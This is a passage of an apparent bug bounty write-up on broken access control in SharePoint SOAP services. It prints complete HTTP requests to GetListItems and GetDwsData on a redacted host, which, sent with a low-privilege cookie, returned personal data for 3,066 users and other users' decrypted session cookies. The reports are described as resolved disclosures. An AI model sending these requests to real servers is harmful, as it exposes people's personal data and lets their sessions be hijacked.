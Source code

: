 The **SOAP request** required `<strListName>` as a mandatory parameter, while `<strQuery>`, `<strViewFields>`, and `<uRowLimit>` were optional.

#### Request:
```
POST /_vti_bin/SiteData.asmx HTTP/2
Host: bim.redacted.com
Content-Type: text/xml; charset=utf-8
Content-Length: 463
Cookie: Healthy
Soapaction: "http://schemas.microsoft.com/sharepoint/soap/GetListItems"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetListItems xmlns="http://schemas.microsoft.com/sharepoint/soap/">
      <strListName>f936a00b-7bea-4ef8-9105-a624755e3fc7</strListName>
      <uRowLimit>6000</uRowLimit>
    </GetListItems>
  </soap:Body>
</soap:Envelope>
```

Initially, I received a **403 Forbidden** response because I wasn't authenticated. However, when I inserted a **valid low-privilege cookie**, I got a **200 OK** response with **3,066 users' PII**.

**Report 4 (High Severity) → Accepted → Resolved**

### Report-5

Then I accessed `bim.redacted.com/_vti_bin/dws.asmx`, and this turned out to be the most interesting part because I found all users' cookies in decrypted form (two of them belonged to triagers, along with many from other researchers ;D).  

Request:

```
POST /_vti_bin/dws.asmx HTTP/2
Host: bim.redacted.com
Content-Type: text/xml; charset=utf-8
Content-Length: 384
Cookie: Healthy
Soapaction: "http://schemas.microsoft.com/sharepoint/soap/dws/GetDwsData"
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetDwsData xmlns="http://schemas.microsoft.com/sharepoint/soap/dws/">
      <document></document>
    </GetDwsData>
  </soap:Body>
</soap:Envelope>
```
